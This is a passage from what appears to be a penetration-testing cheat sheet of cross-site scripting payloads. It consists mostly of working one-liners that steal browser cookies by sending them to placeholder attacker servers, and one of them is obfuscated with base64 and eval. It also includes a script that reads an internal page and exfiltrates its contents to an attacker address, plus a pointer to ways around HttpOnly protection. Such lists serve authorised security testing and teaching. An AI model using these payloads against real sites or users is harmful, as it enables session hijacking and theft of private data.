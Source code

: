 ```javascript
// It's also possible to execute JS code only with the chars: []`+!${}
```

## XSS common payloads

### Several payloads in 1

{% content-ref url="steal-info-js.md" %}
[steal-info-js.md](steal-info-js.md)
{% endcontent-ref %}

### Retrieve Cookies

```javascript
<img src=x onerror=this.src="http://<YOUR_SERVER_IP>/?c="+document.cookie>
<img src=x onerror="location.href='http://<YOUR_SERVER_IP>/?c='+ document.cookie">
<script>new Image().src="http://<IP>/?c="+encodeURI(document.cookie);</script>
<script>new Audio().src="http://<IP>/?c="+escape(document.cookie);</script>
<script>location.href = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>location = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.location = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.location.href = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.write('<img src="http://<YOUR_SERVER_IP>?c='+document.cookie+'" />')</script>
<script>window.location.assign('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>window['location']['assign']('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>window['location']['href']('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>document.location=["http://<YOUR_SERVER_IP>?c",document.cookie].join()</script>
<script>var i=new Image();i.src="http://<YOUR_SERVER_IP>/?c="+document.cookie</script>
<script>window.location="https://<SERVER_IP>/?c=".concat(document.cookie)</script>
<script>var xhttp=new XMLHttpRequest();xhttp.open("GET", "http://<SERVER_IP>/?c="%2Bdocument.cookie, true);xhttp.send();</script>
<script>eval(atob('ZG9jdW1lbnQud3JpdGUoIjxpbWcgc3JjPSdodHRwczovLzxTRVJWRVJfSVA+P2M9IisgZG9jdW1lbnQuY29va2llICsiJyAvPiIp'));</script>
<script>fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net', {method: 'POST', mode: 'no-cors', body:document.cookie});</script>
<script>navigator.sendBeacon('https://ssrftest.com/x/AAAAA',document.cookie)</script>
```

{% hint style="info" %}
You **won't be able to access the cookies from JavaScript** if the HTTPOnly flag is set in the cookie. But here you have [some ways to bypass this protection](../hacking-with-cookies/#httponly) if you are lucky enough.
{% endhint %}

### Steal Page Content

```javascript
var url = "http://10.10.10.25:8000/vac/a1fbf2d1-7c3f-48d2-b0c3-a205e54e09e8";
var attacker = "http://10.10.14.8/exfil";
var xhr  = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
        fetch(attacker + "?" + encodeURI(btoa(xhr.responseText)))
    }
}
xhr.open('GET', url, true);
xhr.send(null);
```
